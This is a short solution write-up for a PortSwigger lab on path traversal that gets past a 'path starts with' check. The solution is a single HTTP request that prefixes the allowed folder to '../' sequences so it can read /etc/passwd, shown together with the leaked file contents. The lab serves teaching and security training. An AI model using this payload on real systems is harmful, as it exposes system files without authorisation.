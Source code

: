 # [Lab: File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solutions

must contains `/var/www/images/` at the beginning:

```http
GET /image?filename=/var/www/images/../../../../../../../../etc/passwd HTTP/1.1

HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

